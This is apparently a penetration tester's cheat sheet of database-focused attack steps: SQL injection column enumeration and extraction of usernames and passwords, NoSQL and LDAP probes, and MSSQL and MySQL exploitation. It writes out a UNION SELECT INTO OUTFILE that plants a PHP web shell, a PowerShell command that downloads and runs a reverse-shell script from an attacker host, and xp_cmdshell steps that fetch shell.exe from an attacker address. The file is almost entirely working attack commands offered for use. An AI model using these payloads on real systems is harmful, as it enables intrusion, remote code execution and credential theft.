 http://192.168.131.10/debug.php?id=1 UNION SELECT 1,2,"<?php echo shell_exec($_GET['cmd']);?>" INTO OUTFILE 'C:/xampp/htdocs/backdoor.php'
http://192.168.131.10/backdoor.php?cmd=powershell -c "IEX((New-Object System.Net.WebClient).DownloadString('http://<ATTACKER-IP>/revshell.bat'))"

************************************SQL INJECTION: STEPS**************************************
# 1. Determine Number of Columns; search= is where the SQL Injection attack surface is.
http://192.168.131.10:9090/search?search=') UNION ORDER BY 1--
http://192.168.131.10:9090/search?search=') UNION ORDER BY 2--
http://192.168.131.10:9090/search?search=') UNION ORDER BY 3--
http://192.168.131.10:9090/search?search=') UNION ORDER BY 4--
http://192.168.131.10:9090/search?search=') UNION ORDER BY 5--
http://192.168.131.10:9090/search?search=') UNION ORDER BY 6--  // ERROR OCCURS!!! Max columns are 5

# 2. Determine Data Types for each field once max columns determined
http://192.168.131.10:9090/search?search=') UNION SELECT 'a',NULL,NULL,NULL,NULL--   # 'a' returned error
http://192.168.131.10:9090/search?search=') UNION SELECT NULL,'a',NULL,NULL,NULL--   # 'a' returned data indicating string
http://192.168.131.10:9090/search?search=') UNION SELECT NULL,'a','a',NULL,NULL--    # 'a' returned data indicating string
http://192.168.131.10:9090/search?search=') UNION SELECT NULL,'a','a','a',NULL--     # 'a' returned error
http://192.168.131.10:9090/search?search=') UNION SELECT NULL,'a','a',NULL,'a'--     # 'a' returned error

# 3. Attempt SQL Injection on table guess using guessed field names
http://192.168.131.10:9090/search?Search=') UNION SELECT NULL,username,password,NULL,NULL FROM users--

// NOSQL
' ||1==1//
, $where: '1 == 1'

// LDAP (:389/tcp|:636/tcp) - PROBING & EXPLOITATION
ldapsearch -h <IP> -p <PORT> -x -s base



******// MSSQL (:1433/tcp) - PROBING & EXPLOITATION******
sqsh -S <IP> -U '<user>' -P '<password>'
EXEC sp_configure 'show advanced options',1
go
RECONFIGURE
go
EXEC sp_configure 'xp_cmdshell',1
go
RECONFIGURE
go
xp_cmdshell '<command>'; go;
EXEC xp_cmdshell ‘powershell -c “wget <ATTACKER-IP>/shell.exe -usebasicparsing -o shell.exe”'
nmap -p <PORT> --script ms-sql-xp-cmdshell --script-args mssql.username=<USER>,mssql.password=<PASSWORD>,ms-sql-xp-cmdshell.cmd="<command>" <IP>

// MYSQL (:3306/tcp) - PROBING & EXPLOITATION
mysql -h <IP> -u <user> -p<PASSWORD> -e 'show databases;'
*********************************************END**********************************************